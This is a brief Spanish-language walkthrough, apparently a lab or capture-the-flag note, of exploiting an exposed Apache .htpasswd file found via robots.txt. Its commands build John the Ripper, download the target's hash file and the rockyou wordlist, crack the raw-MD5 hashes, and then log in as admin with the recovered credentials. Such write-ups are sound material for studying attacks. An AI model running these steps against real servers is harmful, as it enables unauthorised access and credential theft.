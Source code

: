 # Explotación archivo htpasswd
Exfiltrado por robots.txt, archivo htpasswd.
.htpasswd, credenciales de apache que por algun motivo se encuentran aqui.
(definicion htpasswd)

Lanzamos un john.

```
apt update && apt install -y git build-essential libssl-dev zlib1g-dev yasm

git clone https://github.com/openwall/john -b bleeding-jumbo john-jumbo
cd john-jumbo/src
./configure && make -s clean && make -sj$(nproc)

curl http://<ip>/whatever/httpaswd -o htpasswd
curl https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt -o rockyou.txt

./john --format=raw-md5 --wordlist=rockyou.txt ./htpasswd

```

Son credenciales de admin, pues nos intentamos loggear como admin.